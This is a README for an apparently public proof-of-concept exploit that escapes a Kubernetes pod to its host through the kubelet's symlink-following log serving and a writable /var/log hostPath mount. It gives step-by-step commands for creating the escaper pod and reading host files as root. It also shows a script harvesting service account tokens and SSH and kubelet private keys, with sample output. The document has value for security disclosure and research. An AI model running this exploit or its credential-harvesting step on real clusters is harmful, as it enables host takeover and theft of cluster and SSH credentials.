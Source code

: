 # Kubelet Exploit For /var/log Mount

Kube-pod-escape is a POC for an exploit on the symlink following behaviour of logs files serving in the kubelet, in addition with a pod that has a write hostPath mount to /var/log.  
This POC shows the outcome of a pod which uses that mount, and how it can escape to the host machine.  
Further read on this discovery can be done on the following [blog post](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts)

This repository contains all files and related code for running this exploit.  


## Prerequisites
A Kubernetes cluster, 
Without restriction for retrieving logs with `kubectl logs <pod>`


## Run the exploit

First, create the pod by:
    
```bash
$ kubectl create -f escaper.yml
pod "escaper" created
```

After the pod was created, exec into the escaper pod.
```bash
$ kubectl exec -it escaper bash
➜ root@escaper:~/exploit$ lsh
Usage: [cath|lsh] <host_path>
```
### lsh
Works like ls, but using root access on the host machine.
### cath
Works like cat, but using root access on the host machine.

Example:
```bash
$ kubectl exec -it escaper bash
➜ root@escaper:~/exploit$ lsh /proc
1/
10/
10034/
10042/
10047/
....
```

## Extract Sensitive Data
In addition to the given lsh and cath commands, Inside the `~/exploit` folder, there's a python script, which automatically locates and downloads private key files from the host, as well as kubernetes service account tokens.  
_(to find tokens, the script searches the /var/lib/kubelet/pods folder. this way it can read the mounted .token files for each pod that runs on the host)_

## Run the script
```bash
$ kubectl exec -it escaper bash
➜ root@escaper:~/exploit$ python find_sensitive_files.py
[*] Got access to kubelet /logs endpoint
[+] creating symlink to host root folder inside /var/log

[*] fetching token files from host
[+] extracted hostfile: /var/lib/kubelet/pods/6d67bed2-abe3-11e9-9888-42010a8e020e/volumes/kubernetes.io~secret/metadata-agent-token-xjfh9/token

[*] fetching private key files from host
[+] extracted hostfile: /home/ubuntu/.ssh/private.key
[+] extracted hostfile: /etc/srv/kubernetes/pki/kubelet.key
...
```
Token Files are downloaded to: `/root/exploit/host_files/tokens`  
Key Files are downloaded to: `/root/exploit/host_files/private_keys`

